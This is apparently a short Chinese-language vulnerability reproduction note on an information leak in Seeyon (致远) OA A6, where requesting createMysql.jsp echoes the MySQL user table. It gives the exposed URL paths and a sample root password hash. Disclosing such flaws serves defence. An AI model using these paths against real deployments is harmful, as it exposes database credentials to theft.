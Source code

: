 ```yaml
---
title: "致远OA A6 敏感信息泄露（一）"
id: zhfly3350
---
```


# 致远OA A6 敏感信息泄露（一）

## 一、漏洞简介

该漏洞泄露了数据库用户的账号，密码hash。访问该文件直接执行了Select * from mysql.user;并回显

## 二、漏洞影响

致远OA A6

## 三、复现过程

##### 漏洞位置:

```
http://www.0-sec.org/yyoa/createMysql.jsp `[http://www.0-sec.org/yyoa/ext/createMysql.jsp](http://www.0-sec.org/yyoa/ext/createMysql.jsp)` 
```

回显内容：

```
root `*1532B21FE550E115F113DAA9A26D0EEEEF8DEDC7` 
```